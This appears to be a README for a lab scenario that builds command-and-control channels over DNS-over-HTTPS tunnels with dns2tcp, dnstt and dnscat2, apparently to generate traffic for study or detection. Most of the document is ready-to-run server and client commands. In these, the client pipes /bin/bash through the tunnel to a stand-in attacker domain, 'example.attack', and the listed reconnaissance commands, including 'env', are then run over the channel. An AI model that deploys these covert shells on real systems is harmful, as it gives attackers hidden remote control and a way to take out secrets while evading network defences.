 # DNS Tunnel over DoH
## Description
Manual C2 over DoH Tunnel scenario.

## Overview
```       
scenarios/doh_tunnel/               # Main scenario directory
├── dns_server                      # Recursive / forwarding DoH-servers
│   ├── dns-over-https.bash
│   └── dns-over-https.yaml
├── dns_tunnel
│   ├── dns2tcp_client_setup.bash
│   ├── dns2tcp_server_setup
│   ├── dns2tcp.yaml
│   ├── dnscat2_client.bash
│   ├── dnscat2_server.bash
│   ├── dnscat2.yaml.disabled       # Disabled due to a bug in DNSCAT2
│   ├── dnstt_client_setup.bash
│   ├── dnstt_server_setup.bash
│   └── dnstt.yaml
├── doh_tunnel.yaml
└── README.md
```

## C2 Commands
The following shell commands were executed in each C2 channel:
```bash
whoami
pwd
w
uname -a
ip a
env
```

### DNS2TCP
```bash
# Server Side
dns2tcpd -F -f /opt/dns2tcpdrc -d 1
socat -d TCP4-LISTEN:1337 STDOUT
< ENTER C2 COMMANDS HERE >

# Client Side
dns2tcpc -z example.attack -k 0xDEADBEEF 127.0.0.1 -c -T TXT -r socat -e '/bin/bash'
```

### DNSTT
```bash
# Server Side
./dnstt-server -udp :53 -privkey {{ private key }} example.attack 127.0.0.1:1337
socat -d TCP4-LISTEN:1337 STDOUT
< ENTER C2 COMMANDS HERE >

# Client Side
./dnstt-client -doh https://192.168.0.10/dns-query -utls none -pubkey {{ public key }} example.attack 127.0.0.1:1337
socat TCP4:127.0.0.1:1337 EXEC:/bin/bash
```

### DNSCAT2 (not executed)
See also: [DNSCAT2 issue #175](https://github.com/iagox86/dnscat2/issues/175)
```bash
# Server Side
sudo ruby ./dnscat2/server/dnscat2.rb example.attack --secret 0xDEADBEEF
window -i 1
shell
< ENTER C2 COMMANDS HERE >

# Client Side
sudo ./dnscat2/client/dnscat --dns server=192.168.0.10,domain=example.attack --secret=0xDEADBEEF
```